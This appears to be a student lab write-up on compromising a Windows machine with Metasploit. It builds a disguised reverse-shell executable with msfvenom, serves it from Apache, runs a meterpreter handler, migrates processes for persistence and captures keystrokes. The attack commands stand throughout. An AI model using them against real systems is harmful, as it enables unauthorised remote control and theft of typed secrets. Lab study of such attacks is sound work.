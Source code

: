 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/5aceb2fa-25e0-4ae6-ac13-3de3b48efe03)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/7fe8a848-6e3d-45ea-a7a8-409c903ade20)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/1ee02a35-1c98-4bcc-ac54-3679af50083a)

Start apache server

sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/819e0e70-907f-40f6-8670-0706f52a06df)

Check the status of apache2

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/a9b6919e-25c8-4921-95d3-b7565f947cd3)

## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/fab5b21c-0b93-4752-b1bb-115835a0ab26)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/a70f58af-8445-437c-ada8-fba6a870cd8c)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/b5e4b16f-9776-4519-b9c2-cd43879bc44f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/e3c17188-41b6-464c-90c7-54a52737541c)

Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/83b488f1-edd1-4bf1-a608-d797b14cd200)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/28b660ed-8c94-4a6d-ad83-2369d28509e4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/026b0b0e-7bdc-4356-bede-0e0074a58a35)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/f6304e01-ea0b-44ea-bbf5-1304ca54bf06)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. 

On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/2f1d7815-61c8-4715-8c4d-514087c91eb6)

![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/64ad24af-a705-493a-8a70-7f016a76d058)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/15f1ddea-0798-4009-8f0d-08d524f9b98b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
